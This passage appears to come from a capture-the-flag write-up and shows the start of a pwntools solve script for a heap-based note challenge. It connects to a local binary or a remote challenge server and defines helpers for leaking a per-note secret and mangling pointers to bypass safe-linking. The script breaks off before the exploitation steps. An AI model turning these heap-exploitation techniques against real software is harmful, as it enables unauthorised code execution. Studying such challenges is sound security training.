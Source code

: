 ```python

################ Shell ################
print('Enjoy shell')

io.interactive()
```

# Full solve script

```python
#!/usr/bin/env python3

from pwn import *

elf = ELF("./chall_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = elf

def conn():
    if args.REMOTE:
        io = remote("pwn.blitzhack.xyz", 4566)
    else:
        io = process([elf.path])
        if args.GDB:
            gdb.attach(io)

    return io

io = conn()

secrets = {}

def mangle_ptr(addr, target):
    return (addr >> 12) ^ target

def get_secret(idx : int):
    # for some reason, the program has a secret that is required
    # to be known for each entry
    # this can be easily leaked by entering 0, this gets xored with
    # the secret and then printed (leaking it)
    io.sendlineafter(b'> ', b'2')
    io.sendlineafter(b'index to edit: ', str(idx).encode())
    io.sendlineafter(b'enter your guess: ', b'0')
    io.readuntil(b'wrong guess ')
    return io.readline()[:-1]

def create(sz : int, data : bytes):
    io.sendlineafter(b'> ', b'1')
    io.sendlineafter(b'enter size your note: ', str(sz).encode())
    io.sendafter(b'enter data: ', data)

def edit(idx : int, data : bytes):
    io.sendlineafter(b'> ', b'2')
    io.sendlineafter(b'index to edit: ', str(idx).encode())
    io.sendlineafter(b'enter your guess: ', secrets[idx])
    io.sendafter(b'enter data: ', data)

def show(idx : int):
    io.sendlineafter(b'> ', b'3')
    io.sendlineafter(b'index to show', str(idx).encode())
```